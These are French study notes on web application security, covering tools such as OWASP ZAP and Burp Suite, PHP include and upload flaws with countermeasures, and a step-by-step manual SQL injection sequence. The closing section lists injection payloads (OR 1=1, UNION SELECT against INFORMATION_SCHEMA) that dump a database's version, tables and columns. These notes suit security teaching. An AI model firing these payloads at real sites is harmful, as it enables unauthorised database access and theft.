 - OWASP : outil de référence pour la secu appli web
- OWASP ZED ATTACK PROXY (zap)

# cartographie d'un site web

- cartographier un site ---> récupérer le plan du site (arborescence)
- url/uri ----> emplacement d'une ressource
- les ressources sont locales ou externes
- pour les sites dynamiques on parle de "prise d'empreinte" et non de cartographie

- vega : injection SQL, faille-xss, 
- scanner pour test rapides et proxy filtrant pour inspection

- burp suite: plateforme complète pour test de sec
- analyser/modifier et rejouer des requetes
- approfondir la recherche des vulnérabilités web

# failles php

## failles include

- <?php include('truc.php'); ?>
- exploit locale ou distante
- (exemple sur DVWA)

### protection faille include

- file_exists('page') --> empécher l'ouverture de la page si elle n'existep as niveau php
- .HTACESS -----> de même, niveau serveur web

## faille upload

- permet de backdoorer un serveur
- exploit : double extension, bypass mime, selection repertoire destination

### protection faille include

- renommer les fichiers avec des noms aléatoire et sans extension (hash)
- config htacess
- interdire certaines fonctions critiques au niveau serveur


# Failles SQL

- SQLMap
- OWASP Zed Attack proxy
- Hash identifier

- Manuel : 
    1. envoyer requete : 1
    2. envoyer : 1' (si il y a une erreur la faille est présente)
    3. envoyer : 1' OR 1=1# --> affiche tout le contenue de la table
    4. envoyer : 1' OR 1=1 UNION SELECT null,version()# ---> affiche la version du serveur
    5. envoyer : 1' OR 1=1 UNION SELECT null,table_name() FROM INFORMATION_SCHEMA.tables#
    ----> nom de toutes les tables
    6. envoyer ! 1' OR 1=1 UNION SELECT null,column_name FROM INFORMATION_SCHEMA.columns 
    WHERE table_name ='x' --> nom des colonnes d'une table
